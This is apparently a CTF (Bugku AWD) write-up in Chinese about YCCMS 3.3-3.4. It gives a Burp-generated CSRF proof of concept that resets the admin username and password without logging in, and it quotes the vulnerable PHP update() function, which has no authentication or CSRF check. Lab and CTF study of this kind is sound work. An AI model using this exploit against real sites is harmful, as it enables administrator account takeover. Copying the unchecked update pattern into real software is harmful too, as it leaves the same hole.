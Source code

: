 # bugkuAWD-19-YCCMS

版本范围: 3.3-3.4

## 越权修改管理员密码

EXP

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->

<body>
    <script>history.pushState('', '', '/')</script>
    <form action="http://192-168-1-193.pvp336.bugku.cn/admin/?a=admin&m=update" method="POST">
        <input type="hidden" name="username" value="admin" />
        <input type="hidden" name="password" value="admin123" />
        <input type="hidden" name="notpassword" value="admin123" />
        <input type="hidden" name="send" value="ä&#191;&#174;æ&#148;&#185;å&#175;&#134;ç&#160;&#129;" />
        <input type="submit" value="Submit request" />
    </form>
</body>

</html>
```

在未登录的情况下构造url,只需要更改username, password, notpassword的值即可更改数据库中admin账号的相关信息 

![20210618190644835](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210618190644835.png)

 函数位于 `controller\AdminAction.class.php` 中的update函数

```php
public function update(){
        if(isset($_POST['send'])){
            if(validate::isNullString($_POST['username'])) Tool::t_back('用户名不能为空','?a=admin&m=update');
            if(validate::isNullString($_POST['password'])) Tool::t_back('密码不能为空!','?a=admin&m=update');
            if(!(validate::checkStrEquals($_POST['password'], $_POST['notpassword']))) Tool::t_back('两次密码不一致!','?a=admin&m=update');
            $this->_model->username=$_POST['username'];
            $this->_model->password=sha1($_POST['password']);
            $_edit=$this->_model->editAdmin();
            if($_edit){
                tool::layer_alert('密码修改成功!','?a=admin&m=update',6);
                }else{
                tool::layer_alert('密码未修改!','?a=admin&m=update',6);
            }
        }

            $this->_tpl->assign('admin', $_SESSION['admin']);
            $this->_tpl->display('admin/public/update.tpl');
    }
```
